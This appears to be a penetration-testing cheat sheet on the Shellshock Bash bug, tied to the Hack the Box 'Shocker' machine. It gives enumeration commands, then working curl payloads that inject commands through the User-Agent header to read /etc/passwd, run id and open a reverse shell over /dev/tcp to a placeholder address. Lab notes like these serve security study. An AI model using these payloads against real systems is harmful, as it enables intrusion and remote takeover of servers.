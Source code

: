 # Shellshock

Shellshock, also known as Bashdoor is a family of [security bugs](https://en.wikipedia.org/wiki/Security_bug) in the [Unix](https://en.wikipedia.org/wiki/Unix) [Bash](https://en.wikipedia.org/wiki/Bash_\(Unix_shell\)) [shell](https://en.wikipedia.org/wiki/Shell_\(computing\)), the first of which was disclosed on 24 September 2014.&#x20;

Shellshock could enable an attacker to cause Bash to [execute arbitrary commands](https://en.wikipedia.org/wiki/Arbitrary_code_execution) and gain unauthorized access to many Internet-facing services, such as web servers, that use Bash to process requests.

### How to detect and enumerate

{% code overflow="wrap" %}
```bash
# Bash version < 4.3
bash --version

# nmap 
nmap -sV -p- --script http-shellshock <target>

# Run directory check and check if you can find cgi-bin directory
feroxbuster -u http://<ip address> -f -n 50
# -f: force adding '/' at the end
# -n: set the number of threads
feroxbuster -u http://<ip address>/cgi-bin/ -x sh,cgi,pl
# -x: set extensions
```
{% endcode %}

### How to RCE&#x20;

{% code overflow="wrap" %}
```bash
# Hack the Box
# https://www.hackthebox.com/machines/shocker 
curl -H "User-Agent: () { :; }; /bin/cat /etc/passwd" <Target>
curl -H "User-Agent: () { :; }; echo $(</etc/passwd)" <Target>
curl -H "User-Agent: () { :;};echo ;echo 'id' | /bin/bash" <Target>
curl -H 'User-Agent: () { :;}; echo; echo "/bin/bash -i >& /dev/tcp/<ip address>/<port> 0>&1" | /bin/bash' <Target>
```
{% endcode %}
